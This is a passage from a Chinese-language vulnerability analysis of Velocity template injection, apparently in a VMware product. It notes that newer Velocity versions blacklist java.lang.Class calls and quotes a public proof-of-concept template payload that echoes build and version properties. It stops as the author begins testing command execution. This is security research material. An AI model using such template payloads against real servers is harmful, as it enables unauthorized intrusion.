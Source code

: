 新的 Velocity 版本有一些黑名单来阻止对“java.lang.Class”类方法的调用,就看上下文是否有一些变量存在操作空间。  
[![](assets/1704161823-0e788c16ea08fb57889fbeebbee1fe3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122419-932aef08-491c-1.png)

### velocity poc分析

所以看是否可以通过velocity执行命令或上传文件

```plain
#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##
#set($objectId = "vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid")##
#set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
$obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
$obj.addProperty("BUILD", $content-about-build)##
$obj.addProperty("VERSION", $content-about-version)##
```

上面是公开的poc,只会回显一些系统属性，`$LOCAL-resourceItem`、`$content-about-build`、`$content-about-version`都是context里已有的变量。  
这里通过调试获取context里的属性做测试，测试代码如下
